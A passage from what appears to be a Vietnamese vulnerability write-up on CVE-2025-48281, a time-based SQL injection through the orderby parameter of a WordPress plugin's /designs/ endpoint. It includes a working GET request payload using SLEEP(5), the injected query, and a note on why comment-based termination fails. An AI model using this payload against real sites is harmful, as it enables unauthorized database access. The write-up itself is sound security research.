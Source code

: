 
## Exploit
### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
				OFFSET 0
```

![time response](assets/img/posts/2025-09-09-CVE-2025-48281/time_resp.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

> Trong trường hợp này không nên comment phía sau `SLEEP`. Vì developer đã enter khiến **OFFSET** xuống dòng thứ 2, khi comment hoạt động, parser của SQL sẽ xử lý và trả về lỗi.
{: .prompt-info }

![debug](assets/img/posts/2025-09-09-CVE-2025-48281/debug.png)

Cuỗi cùng sẽ được tách thành 2 câu query ở 2 dòng khác nhau gây ra lỗi:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25				
OFFSET 0
```
